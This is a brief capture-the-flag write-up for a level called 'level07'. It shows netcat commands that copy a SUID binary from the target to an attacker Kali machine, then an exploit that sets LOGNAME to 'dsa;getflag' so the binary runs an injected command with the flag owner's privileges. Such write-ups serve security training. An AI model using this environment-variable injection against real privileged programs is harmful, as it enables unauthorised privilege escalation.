

*SUID* binary
`-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07`

kali 
`nc -lvnp 9090 > level07`

target
`cat level07 | nc 10.0.2.15 9090`

Binary 



Get **LOGNAME** environment variable and echo it.

Exploit:
```bash
export LOGNAME='dsa;getflag'
./level07
```


